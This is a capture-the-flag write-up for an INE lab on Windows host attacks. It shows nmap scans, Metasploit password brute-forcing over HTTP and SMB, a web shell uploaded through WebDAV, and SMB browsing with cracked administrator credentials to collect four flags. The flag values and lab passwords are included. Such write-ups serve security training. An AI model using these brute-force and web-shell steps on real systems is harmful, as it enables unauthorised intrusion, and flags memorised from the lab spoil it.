






# Host & Network Penetration Testing: System-Host Based Attacks CTF 1

### Target
* `http://target1.ine.local`
* `http://target2.ine.local`

### Tools used:
* `nmap`

---
## Flag 1: User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located. (target1.ine.local)
We first run an `nmap` scan.
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV target1.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-23 07:48 IST
Nmap scan report for target1.ine.local (10.3.22.127)
Host is up (0.0030s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.90 seconds
```
We follow this up with a script scan.  
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV target1.ine.local -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-23 07:49 IST
Nmap scan report for target1.ine.local (10.3.22.127)
Host is up (0.0029s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
|_http-server-header: Microsoft-IIS/10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=target1.ine.local
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-23T02:19:38+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=EC2AMAZ-JVD17HK
| Not valid before: 2026-01-22T02:16:23
|_Not valid after:  2026-07-24T02:16:23
| rdp-ntlm-info: 
|   Target_Name: EC2AMAZ-JVD17HK
|   NetBIOS_Domain_Name: EC2AMAZ-JVD17HK                                                                                                                                                   
|   NetBIOS_Computer_Name: EC2AMAZ-JVD17HK
|   DNS_Domain_Name: EC2AMAZ-JVD17HK
|   DNS_Computer_Name: EC2AMAZ-JVD17HK
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-23T02:19:30+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-23T02:19:35
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```
We know that the user *bob* has a weak password. As such, we load up the msf with the `http_login` module and use a password file to enumerate for the passwords.  
```bash
msf6 auxiliary(scanner/http/http_login) > setg RHOSTS target1.ine.local
RHOSTS => targte1.ine.local
msf6 auxiliary(scanner/http/http_login) > set stop_on_success true 
stop_on_success => true
msf6 auxiliary(scanner/http/http_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/http/http_login) > touch user.txt
[*] exec: touch user.txt

msf6 auxiliary(scanner/http/http_login) > vim user.txt
[*] exec: vim user.txt

msf6 auxiliary(scanner/http/http_login) > cat user.txt
[*] exec: cat user.txt

bob
msf6 auxiliary(scanner/http/http_login) > set USER_FILE user.txt
```
Oncw we run the program, we get the password.  
```bash
[-] 10.3.22.127:80 - Failed: 'bob:karaf'
[-] 10.3.22.127:80 - Failed: 'bob:vagrant'
[+] 10.3.22.127:80 - Success: 'bob:password_123321'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/http_login) > 
```
  
Now using this password, we try to run `dirb` on the server
```bash
┌──(root㉿INE)-[~]
└─# dirb http://target1.ine.local -u bob:password_123321                                                                                                                                  

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jan 23 08:08:15 2026
URL_BASE: http://target1.ine.local/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
AUTHORIZATION: bob:password_123321

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://target1.ine.local/ ----
==> DIRECTORY: http://target1.ine.local/aspnet_client/                                                                                                                                   
==> DIRECTORY: http://target1.ine.local/webdav/                                                                                                                                          
                                                                                                                                                                                         
---- Entering directory: http://target1.ine.local/aspnet_client/ ----
==> DIRECTORY: http://target1.ine.local/aspnet_client/system_web/                                                                                                                        
                                                                                                                                                                                         
---- Entering directory: http://target1.ine.local/webdav/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                         
---- Entering directory: http://target1.ine.local/aspnet_client/system_web/ ----
                                                                                                                                                                                         
-----------------
END_TIME: Fri Jan 23 08:09:07 2026
DOWNLOADED: 13836 - FOUND: 0
```
We go through the webpages discovered and find the flag.  

  
Flag1: **85f998d490f0425c9fd590577cc50719**

---

## Flag 2: Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)
Since this allows for file upload, we try to use `davtest` to check if file upload and code execution is enabled.   
```bash
/usr/bin/davtest Summary:
Created: http://target1.ine.local/webdav/DavTestDir_HkgCnN8
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.jhtml
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.php
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.html
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.aspx
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.shtml
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.asp
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.cfm
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.jsp
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.cgi
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.pl
PUT File: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.txt
Executes: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.html
Executes: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.aspx
Executes: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.shtml
Executes: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.asp
Executes: http://target1.ine.local/webdav/DavTestDir_HkgCnN8/davtest_HkgCnN8.txt
```
Now, we just use `cadaver` to upload a shell.  
```bash
┌──(root㉿INE)-[~]
└─# cadaver http://target1.ine.local/webdav                                                                                                                                               
Authentication required for target1.ine.local on server `target1.ine.local':
Username: bob
Password: 
dav:/webdav/> put webshell.asp 
Uploading webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
dav:/webdav/> 
```
Once the shell is in, we just use it to find the flag.  




Flag2: **51209b47a9d5466ba950a9d1aa7281e4**

---

## Flag 3: By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag. (target2.ine.local)
Next we run some `nmap` smb script scans
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV target2.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-23 08:25 IST
Nmap scan report for target2.ine.local (10.3.19.176)
Host is up (0.0027s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.67 seconds
```
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV target2.ine.local -p 445 -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-23 08:27 IST
Nmap scan report for target2.ine.local (10.3.19.176)
Host is up (0.0031s latency).

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows Server 2019 Datacenter 17763 microsoft-ds
Service Info: OS: Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2019 Datacenter 17763 (Windows Server 2019 Datacenter 6.3)
|   Computer name: EC2AMAZ-3SC2DRK
|   NetBIOS computer name: EC2AMAZ-3SC2DRK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-01-23T02:57:19+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-01-23T02:57:21
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.05 seconds
```
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV target2.ine.local -p 445 --script smb-brute
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-23 08:28 IST
Nmap scan report for target2.ine.local (10.3.19.176)
Host is up (0.0031s latency).

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OS: Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-brute: 
|_  guest:<blank> => Valid credentials, account disabled

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 192.16 seconds
```
We see that `smb_brute` manages to find one user-password combination. Next we use the `msf` module ***smb_login***
```bash
msf6 auxiliary(scanner/smb/smb_login) > setg RHOSTS target2.ine.local
RHOSTS => target2.ine.local
msf6 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(scanner/smb/smb_login) > set Pass
set PassWORD        set PassWORD_SPRAY  set Pass_FILE       
msf6 auxiliary(scanner/smb/smb_login) > set Pass
set PassWORD        set PassWORD_SPRAY  set Pass_FILE       
msf6 auxiliary(scanner/smb/smb_login) > set Pass_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
Pass_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > run
```
We check for the found credentials, 
```bash
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_login) > creds
Credentials
===========

host         origin       service        public         private          realm  private_type  JtR Format  cracked_password
----         ------       -------        ------         -------          -----  ------------  ----------  ----------------
10.3.19.176  10.3.19.176  445/tcp (smb)  rooty          spongebob               Password
10.3.19.176  10.3.19.176  445/tcp (smb)  demo           password1               Password
10.3.19.176  10.3.19.176  445/tcp (smb)  auditor        hellokitty              Password
10.3.19.176  10.3.19.176  445/tcp (smb)  administrator  pineapple               Password
10.3.22.127  10.3.22.127  80/tcp (http)  bob            password_123321         Password

msf6 auxiliary(scanner/smb/smb_login) > 
```
```bash
└─# smbclient -L //target2.ine.local -U administrator
Password for [WORKGROUP\administrator]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Shared          Disk      
        Shared2         Disk      
        Shared3         Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to target2.ine.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
We login with the **administrator** account and look around to find the next flag.  
```bash
┌──(root㉿INE)-[~]
└─# smbclient //target2.ine.local/C$ -U administrator                                 
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Sat Nov  7 13:45:59 2020
  Boot                              DHS        0  Wed Sep  9 10:08:52 2020
  bootmgr                          AHSR   408692  Wed Sep  9 10:03:42 2020
  BOOTNXT                           AHS        1  Sat Sep 15 12:42:30 2018
  Documents and Settings          DHSrn        0  Wed Nov 14 21:40:15 2018
  EFI                                 D        0  Wed Nov 14 12:26:18 2018
  flag3.txt                           A       34  Fri Jan 23 07:48:33 2026
  pagefile.sys                      AHS 2013265920  Fri Jan 23 07:46:11 2026
  PerfLogs                            D        0  Wed May 13 23:28:09 2020
  Program Files                      DR        0  Sat Nov  7 13:17:23 2020
  Program Files (x86)                 D        0  Sat Nov  7 13:17:24 2020
  ProgramData                       DHn        0  Wed Jan  1 13:47:15 2025
  Recovery                         DHSn        0  Wed Jan  1 13:54:07 2025
  Shared                              D        0  Tue Dec 31 16:59:14 2024
  System Volume Information         DHS        0  Sat Nov  7 12:06:43 2020
  Users                              DR        0  Wed Jan  1 14:00:24 2025
  Utilities                           D        0  Sat Nov  7 13:19:05 2020
  Windows                             D        0  Fri Jan 23 07:51:21 2026

                7863807 blocks of size 4096. 3640491 blocks available
smb: \> get flag3.txt 
getting file \flag3.txt of size 34 as flag3.txt (2.4 KiloBytes/sec) (average 2.4 KiloBytes/sec)
smb: \> exit

┌──(root㉿INE)-[~]
└─# cat flag3.txt                                                                          
823e5fac0e444268a33b1adcb6604bbe
```
Flag3: **823e5fac0e444268a33b1adcb6604bbe**

---

## Flag 4: The Desktop directory might have what you're looking for. Enumerate its contents. (target2.ine.local)
For this flag we simply enumerate through the directory until we find the flag.  
```bash
smb: \> cd Users\
smb: \Users\> ls
  .                                  DR        0  Wed Jan  1 14:00:24 2025
  ..                                 DR        0  Wed Jan  1 14:00:24 2025
  Administrator                       D        0  Wed Jan  1 14:00:31 2025
  All Users                       DHSrn        0  Sat Sep 15 12:58:48 2018
  Default                           DHR        0  Wed Jan  1 13:54:41 2025
  Default User                    DHSrn        0  Sat Sep 15 12:58:48 2018
  desktop.ini                       AHS      174  Sat Sep 15 12:46:48 2018
  Public                             DR        0  Wed Dec 12 13:15:15 2018
  student                             D        0  Sat Nov  7 13:45:57 2020

                7863807 blocks of size 4096. 3640363 blocks available
smb: \Users\> cd Administrator\
smb: \Users\Administrator\> ls
  .                                   D        0  Wed Jan  1 14:00:31 2025
  ..                                  D        0  Wed Jan  1 14:00:31 2025
  3D Objects                         DR        0  Wed Jan  1 14:00:35 2025
  AppData                            DH        0  Wed Nov 14 21:47:25 2018
  Application Data                DHSrn        0  Wed Jan  1 14:00:31 2025
  Contacts                           DR        0  Wed Jan  1 14:00:35 2025
  Cookies                         DHSrn        0  Wed Jan  1 14:00:31 2025
  Desktop                            DR        0  Wed Jan  1 14:00:35 2025
  Documents                          DR        0  Wed Jan  1 14:00:35 2025
  Downloads                          DR        0  Wed Jan  1 14:00:35 2025
  Favorites                          DR        0  Wed Jan  1 14:00:35 2025
  Links                              DR        0  Wed Jan  1 14:00:36 2025
  Local Settings                  DHSrn        0  Wed Jan  1 14:00:31 2025
  Music                              DR        0  Wed Jan  1 14:00:35 2025
  My Documents                    DHSrn        0  Wed Jan  1 14:00:31 2025
  NetHood                         DHSrn        0  Wed Jan  1 14:00:31 2025
  NTUSER.DAT                        AHn  1048576  Wed Jan  1 14:01:53 2025
  ntuser.dat.LOG1                   AHS        0  Wed Jan  1 14:00:30 2025
  ntuser.dat.LOG2                   AHS    36864  Wed Jan  1 14:00:30 2025
  NTUSER.DAT{a057f24c-e827-11e8-81c0-0a917f905606}.TM.blf    AHS    65536  Wed Jan  1 14:01:53 2025
  NTUSER.DAT{a057f24c-e827-11e8-81c0-0a917f905606}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Wed Jan  1 14:00:30 2025
  NTUSER.DAT{a057f24c-e827-11e8-81c0-0a917f905606}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Wed Jan  1 14:00:30 2025
  ntuser.ini                         HS       20  Wed Nov 14 21:47:25 2018
  Pictures                           DR        0  Wed Jan  1 14:00:35 2025
  PrintHood                       DHSrn        0  Wed Jan  1 14:00:31 2025
  Recent                          DHSrn        0  Wed Jan  1 14:00:31 2025
  Saved Games                        DR        0  Wed Jan  1 14:00:36 2025
  Searches                           DR        0  Wed Jan  1 14:00:35 2025
  SendTo                          DHSrn        0  Wed Jan  1 14:00:31 2025
  Start Menu                      DHSrn        0  Wed Jan  1 14:00:31 2025
  Templates                       DHSrn        0  Wed Jan  1 14:00:31 2025
  Videos                             DR        0  Wed Jan  1 14:00:35 2025

                7863807 blocks of size 4096. 3640363 blocks available
smb: \Users\Administrator\> cd Desktop\
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Fri Jan 23 07:48:33 2026
  ..                                 DR        0  Fri Jan 23 07:48:33 2026
  desktop.ini                       AHS      282  Wed Jan  1 14:00:35 2025
  flag4.txt                           A       34  Fri Jan 23 07:48:33 2026

                7863807 blocks of size 4096. 3640355 blocks available
smb: \Users\Administrator\Desktop\> get flag4.txt 
getting file \Users\Administrator\Desktop\flag4.txt of size 34 as flag4.txt (2.4 KiloBytes/sec) (average 7.3 KiloBytes/sec)
```
```bash
msf6 auxiliary(scanner/smb/smb_login) > cat flag4.txt
[*] exec: cat flag4.txt

4b3e2a7108a948bda556855830004235
```
Flag4: **4b3e2a7108a948bda556855830004235**